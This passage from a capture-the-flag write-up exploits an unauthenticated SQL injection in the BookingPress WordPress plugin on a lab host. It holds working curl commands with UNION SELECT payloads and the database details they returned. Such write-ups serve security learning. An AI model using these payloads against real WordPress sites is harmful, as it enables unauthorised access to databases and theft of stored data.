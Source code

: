 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-7.png)

This version is vulnerable to Unauthenticated SQL Injection:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-8.png)

[WPScan](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357/) elaborates on this vulnerability:

> The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-20.png)

### Manual SQLi
Following the POC above, I can extract the "nonce" from the source code: **047d5a1a7e**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-9.png)


Using the extracted nonce, I modifed the poc command and querying for verion, version_comment, and verion_compile_os confirms SQL injection working:

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \ 
  --data 'action=bookingpress_front_get_category_services&_wpnonce=047d5a1a7e&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

| @@version       | @@version_comment | @@version_compile_os |
|-------------------------------|--------------------------|---------------------------|
| 10.5.15-MariaDB-0+deb11u1     | Debian 11                | debian-linux-gnu          |


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-10.png)



Using the command below, I can query databases and user:


```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=047d5a1a7e&category_id=33&total_service=-7502) UNION ALL SELECT database(),user(),group_concat(schema_name),1,2,3,4,5,6 from information_schema.schemata-- -'
```

| database() | user()         | group_concat(schema_name) |
| ---------- | -------------- | ------------------------- |
| blog       | blog@localhost | information_schmea,blog   |


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/metatwo/Images/htb/metatwo/image-12.png)
